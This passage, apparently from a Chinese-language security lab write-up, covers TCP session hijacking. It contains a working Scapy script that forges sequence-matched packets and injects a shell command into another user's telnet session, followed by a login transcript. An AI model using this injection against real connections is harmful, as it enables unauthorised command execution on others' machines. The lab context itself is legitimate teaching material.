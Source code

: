可以看出，连接直接被中断了。

## Task 3: TCP Session Hijacking

编写 `tcphijacking.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    data = "echo \"Fk U bitch!\" >> ~/hijacking.out\n\0"
    pkt = ip/tcp/data
    ls(pkt)
    send(pkt, verbose=0)

f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
22c45e0a11e6 login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 29 10:20:40 UTC 2022 from user1-10.9.0.6.net-10.9.0.0 on pts/2
```

运行程序：

```shell
attacker-10.9.0.1$ tcphijacking.py
```

查看攻击效果：
